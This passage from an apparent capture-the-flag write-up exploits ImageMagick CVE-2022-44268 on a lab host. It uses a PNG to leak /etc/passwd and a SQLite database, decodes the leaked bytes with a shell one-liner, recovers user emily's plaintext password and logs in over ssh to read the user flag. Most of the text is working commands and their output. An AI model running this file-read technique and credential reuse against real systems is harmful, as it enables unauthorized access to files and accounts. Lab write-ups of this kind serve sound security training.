 ```console
$ python3 -c "print(bytes.fromhex(\"$(identify -verbose output.png |grep '^[a-f0-9]'|xargs | sed 's/ //g')\"))"
b'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nsystemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin\nsystemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin\nmessagebus:x:103:109::/nonexistent:/usr/sbin/nologin\nsystemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin\nemily:x:1000:1000:emily,,,:/home/emily:/bin/bash\nsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin\nsshd:x:105:65534::/run/sshd:/usr/sbin/nologin\n_laurel:x:998:998::/var/log/laurel:/bin/false\n'
```

I'll try to view the database with the password:

```console
$ rm -f *png; cargo run '/var/db/pilgrimage'
    Finished dev [unoptimized + debuginfo] target(s) in 0.01s
     Running `target/debug/cve-2022-44268 /var/db/pilgrimage`

```

```console
$ python3 -c "print(bytes.fromhex(\"$(identify -verbose output.png |grep '^[a-f0-9]'|xargs | sed 's/ //g')\"))"
b'SQLite format 3\x00\x10\x00\x01\x01\x00@  \x00\x00\x00?\x00\x00\x00\x05\x00\x00\x[...]
```

I could recreate the binary version of the db and view it via `sqlite3`, but this string stands out and saves some steps:

```console
[...]0\x18\x01\x03\x17-emilyabigchonkyboi123\n\x00\x00\x00\x01\x0f\xf7\x00\x0f\xf7\x00\x00\x00\x00[...]
```

I try that password for `ssh` login:

```console
$ ssh emily@$t
The authenticity of host '10.10.11.219 (10.10.11.219)' can't be established.
ED25519 key fingerprint is SHA256:uaiHXGDnyKgs1xFxqBduddalajktO+mnpNkqx/HjsBw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.219' (ED25519) to the list of known hosts.
emily@10.10.11.219's password:
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
emily@pilgrimage:~$ cat user.txt
7a3e01[...]
```
